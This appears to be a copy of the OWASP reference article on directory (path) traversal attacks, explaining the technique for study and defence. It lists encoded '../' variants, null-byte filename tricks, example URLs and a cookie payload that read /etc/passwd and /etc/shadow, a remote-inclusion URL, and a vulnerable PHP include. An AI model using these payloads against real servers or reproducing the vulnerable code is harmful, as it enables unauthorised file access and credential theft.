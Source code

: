 ```yaml
---
title: Directory (Path) Traversal
author: Arsen A. Gutsal
layout: text-and-images
---
```


[Source](https://www.owasp.org/index.php/Path_Traversal "Permalink to Path Traversal - OWASP")

# Directory (Path) Traversal

_This is an **Attack**._


Last revision (mm/dd/yy): **10/6/2015**

## Overview

A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with "dot-dot-slash (../)" sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

This attack is also known as "dot-dot-slash", "directory traversal", "directory climbing" and "backtracking".

## Related Security Activities

### How to Avoid Path Traversal Vulnerabilities

See the [OWASP Guide][2] article on how to [Avoid Path Traversal ][3] Vulnerabilities.

### How to Test for Path Traversal Vulnerabilities

See the [OWASP Testing Guide][4] article on how to [Test for Path Traversal ][5] Vulnerabilities.

## Description

### Request variations

Encoding and double encoding:

         %2e%2e%2f represents ../
         %2e%2e/ represents ../
         ..%2f represents ../
         %2e%2e%5c represents ..
         %2e%2e represents ..
         ..%5c represents ..
         %252e%252e%255c represents ..
         ..%255c represents .. and so on.

**Percent encoding (aka URL encoding)**

Note that web containers perform one level of decoding on percent encoded values from forms and URLs.

    ..%c0%af represents ../
    ..%c1%9c represents ..

**OS specific**

UNIX

    Root directory:  " / "
        Directory separator: " / "

WINDOWS

    Root directory: "  <partition letter> :  "
    Directory separator: " / " or "  "
    Note that windows allows filenames to be followed by extra .  / characters.

In many operating systems, null bytes %00 can be injected to terminate the filename. For example, sending a parameter like:

    ?file=secret.doc%00.pdf

will result in the Java application seeing a string that ends with ".pdf" and the operating system will see a file that ends in ".doc". Attackers may use this trick to bypass validation routines.

## Examples

### Example 1

The following examples show how the application deals with the resources in use.

     http://some_site.com.br/get-files.jsp?file=report.pdf
     http://some_site.com.br/get-page.php?home=aaa.html
     http://some_site.com.br/some-page.asp?page=index.html

In these examples it's possible to insert a malicious string as the variable parameter to access files located outside the web publish directory.

      http://some_site.com.br/get-files?file=../../../../some dir/some file

      http://some_site.com.br/../../../../some dir/some file

The following URLs show examples of *NIX password file exploitation.

    http://some_site.com.br/../../../../etc/shadow
    http://some_site.com.br/get-files?file=/etc/passwd

Note: In a windows system an attacker can navigate only in a partition that locates web root while in the Linux he can navigate in the whole disk.

### Example 2

It's also possible to include files and scripts located on external website.

     http://some_site.com.br/some-page?page=http://other-site.com.br/other-page.htm/malicius-code.php

### Example 3

These examples illustrate a case when an attacker made the server show the CGI source code.

     http://vulnerable-page.org/cgi-bin/main.cgi?file=main.cgi

### Example 4

This example was extracted from: Wikipedia - Directory Traversal

A typical example of vulnerable application code is:

    <?php
    $template = 'blue.php';
    if ( is_set( $_COOKIE['TEMPLATE'] ) )
    $template = $_COOKIE['TEMPLATE'];
    include ( "/home/users/phpguru/templates/" . $template );
    ?>

An attack against this system could be to send the following HTTP request:

    GET /vulnerable.php HTTP/1.0
    Cookie: TEMPLATE=../../../../../../../../../etc/passwd

Generating a server response such as:

    HTTP/1.0 200 OK
    Content-Type: text/html
            Server: Apache

    root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh
    daemon:*:1:1::/tmp:
    phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh

The repeated `../` characters after /home/users/phpguru/templates/ has caused [include()][6] to traverse to the root directory, and then include the UNIX password file [/etc/passwd][7].

UNIX etc/passwd is a common file used to demonstrate **directory traversal**, as it is often used by crackers to try cracking the passwords.

### Absolute Path Traversal

The following URLs may be vulnerable to this attack:

    http://testsite.com/get.php?f=list
    http://testsite.com/get.cgi?f=2
    http://testsite.com/get.asp?f=test

An attacker can execute this attack like this:

    http://testsite.com/get.php?f=/var/www/html/get.php
    http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc
    http://testsite.com/get.asp?f=/etc/passwd

When the web server returns information about errors in a web application, it is much easier for the attacker to guess the correct locations (e.g. path to the file with a source code, which then may be displayed).

